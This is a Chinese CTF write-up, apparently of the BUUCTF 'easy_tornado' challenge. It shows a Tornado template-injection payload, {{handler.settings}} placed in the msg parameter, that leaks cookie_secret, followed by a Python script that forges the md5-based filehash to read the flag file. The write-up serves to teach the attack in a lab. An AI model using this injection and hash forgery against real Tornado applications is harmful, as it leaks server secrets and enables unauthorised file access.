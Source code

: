 welcome.txt

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903231255390-418247473.png)

hints.txt

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903231526172-982886875.png)

根据上面的信息，我们知道flag在/fllllllllllllag文件中

render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页render配合Tornado使用

最后就是这段代码md5(cookie_secret+md5(filename))，再来分析我们访问的链接：

```
http://4dd65e36-edbf-4402-b6a3-75993b8c618d.node3.buuoj.cn/file?filename=/flag.txt&filehash=284090432706edeffa4679e60f0fff03
```

推测md5加密过后的值就是url中filehash对应的值，想获得flag只要我们在filename中传入/fllllllllllllag文件和filehash，所以关键是获取cookie_secret

在tornado模板中，存在一些可以访问的快速对象，比如 {{escape(handler.settings["cookie"])}}，这个其实就是handler.settings对象，里面存储着一些环境变量，具体分析请参照《[python SSTI tornado render模板注入](https://www.cnblogs.com/cimuhuashuimu/p/11544455.html)》。

观察错误页面，发现页面返回的由msg的值决定

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903233530649-1247101816.png)

修改msg的值注入{{handler.settings}}，获得环境变量

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903233721068-1721567768.png)

得到cookie_secret的值，根据上面的md5进行算法重构，就可以得到filehash，这里给出py3的转换脚本



```
import hashlib
hash = hashlib.md5()

filename='/fllllllllllllag'
cookie_secret="ad53693f-47f6-4c89-b072-0673e0fbbc17"
hash.update(filename.encode('utf-8'))
s1=hash.hexdigest()
hash = hashlib.md5()
hash.update((cookie_secret+s1).encode('utf-8'))
print(hash.hexdigest())
```



得到filehash=ceba5d7a8acd8c4fb77cfb58c9534971，获取flag

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903234158628-1148950140.png)

## Django
